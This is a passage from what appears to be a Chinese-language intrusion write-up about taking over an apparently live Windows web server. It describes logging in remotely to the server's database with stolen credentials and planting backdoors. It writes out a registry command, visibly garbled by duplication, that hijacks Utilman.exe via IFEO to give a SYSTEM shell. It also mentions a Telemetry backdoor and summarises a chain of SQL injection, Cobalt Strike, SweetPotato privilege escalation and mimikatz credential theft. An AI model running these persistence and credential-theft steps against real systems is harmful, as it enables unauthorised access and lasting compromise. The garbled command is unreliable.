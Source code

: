 ![]()

  

找到数据库账号密码，用Nmap扫描过其端口，1433端口是开放着的，那尝试在公网直接连接其数据库。

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091642.png)

  

连接成功，暂不深入查看其数据，因为在其phpstudy_pro中发现一个正在运营的站点。

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091643.png)

  

随便点击后跳转到APK下载页面

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091645.png)

  

下载后运行看看

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091646.png)

  

初步查看了一下，并无异常的地方，没有发现更多有价值的信息了，接下来进行IFEO映像劫持，以达到权限维持的目的。

  *   * 

    
    
    reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Utilman.exe" /freg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Utilman.exe" /v Debugger /t REG_SZ /d "c:\Windows\system32\cmd.exe " /f

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091647.png)

  

再多留一个Telemetry后门

  

![]()

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091648.png)

  

到此结束，简单的总结下整个流程： 前台登录框注入 -> 通过注入上线CS -> 甜土豆提权 -> 获得system权限 ->
mimikatz获取管理员账号密码 -> 内网信息收集 -> 网站源码文件 -> 数据库配置文件 -> 数据库账号信息 -> 获得数据库管理员账号密码 ->
IFEO映像劫持 -> Telemetry权限维持
